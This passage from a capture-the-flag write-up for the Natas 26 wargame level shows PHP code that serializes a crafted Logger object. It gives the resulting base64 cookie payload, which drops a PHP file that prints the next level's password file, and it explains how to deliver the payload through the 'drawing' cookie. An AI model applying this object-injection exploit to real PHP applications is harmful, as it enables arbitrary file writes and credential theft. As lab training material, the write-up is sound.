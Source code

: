             }                       

          
            function __destruct(){
                // write exit message
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$this->exitMsg);
                fclose($fd);
            }                       
        }
        
    $myObject = new Logger("natas27_hacked");

    echo urlencode(base64_encode(serialize($myObject)));
    echo "\n";

    // Output: 
    Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyMjoiaW1nL25hdGFzMjdfaGFja2VkLnBocCI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjg4OiJQYXNzd29yZCBmb3IgTmF0YXMgMjcgaXM6IDw%2FcGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3JykgPz4KIjt9
    ```

- As shown above, we must first `urlencode` the result before setting the value of the cookie as `/` and `+` that are used in base64 encoding are not valid charaters for a cookie.
- It is also to be noted that we only have write permissions within the `img` directory. So, we must create our file inside it.
- Once, we set the value of `drawing` cookie to the output of the above code, we should see a message telling us that there has been a fatal error (which only means things are working for us). And when we navigate to the file created by the above code, we should see the output.
- Here are the results as obtained in `Burp Suite:`:

    ![images/level26_burp_session_1.png](images/level26_burp_session_1.png)

    Notice the fatal error as functions expect the `drawing` cookie to hold an Array() object and not our `Logger` object.

